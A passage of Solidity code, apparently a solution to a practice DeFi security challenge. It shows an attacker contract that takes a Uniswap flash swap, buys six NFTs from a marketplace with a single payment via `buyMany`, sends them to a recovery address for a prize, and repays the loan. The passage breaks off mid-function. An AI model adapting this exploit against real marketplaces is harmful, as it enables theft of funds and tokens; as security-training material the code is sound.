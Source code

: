 ```solidity
    {
        dvt = IERC20(_token);
        weth = IWETH(_weth);
        nft = IERC721(_nft);
        marketplace = IMarketplace(_marketplace);
        pair = IUniswapV2Pair(_pair);
        router = IUniswapV2Router02(_router);
        factory = IUniswapV2Factory(_factory);
        recovery = _recovery;
    }

    function attack() external
    {
        //get a flash loan from uniswap
        pair.swap(NFT_PRICE, 0, address(this), "test42069");
        require(attack_succesfull, "Attack failed");
        msg.sender.call{value: address(this).balance}("");
    }

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external
    {
        //change all the WETH to ETH    
        weth.withdraw(NFT_PRICE);

        uint256[] memory tokenIds = new uint256[](6);
        tokenIds[0] = 0;
        tokenIds[1] = 1;
        tokenIds[2] = 2;
        tokenIds[3] = 3;
        tokenIds[4] = 4;
        tokenIds[5] = 5;

        //Buy all the NFTs for 15 eth
        marketplace.buyMany{value: NFT_PRICE}(tokenIds);

        //Give the NFTs to the developer
        for (uint256 id = 0; id < 6; id++)
        {
            nft.safeTransferFrom(address(this), recovery, id, abi.encode(address(this)));
        }

        require(nft.balanceOf(address(this)) == 0, "Not all NFTs were transferred");
        require(address(this).balance > 45 ether, "Prize was not received");

        address[] memory path = new address[](1);
        path[0] = address(dvt);

        //15 ether / 0.997 = 15.045135406218655968 ether 
        weth.deposit{value: 15.045135406218655968 ether}();
        weth.transfer(address(pair), 15.045135406218655968 ether);

        attack_succesfull = true;
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external override returns (bytes4)
    {
        //return the selector
```
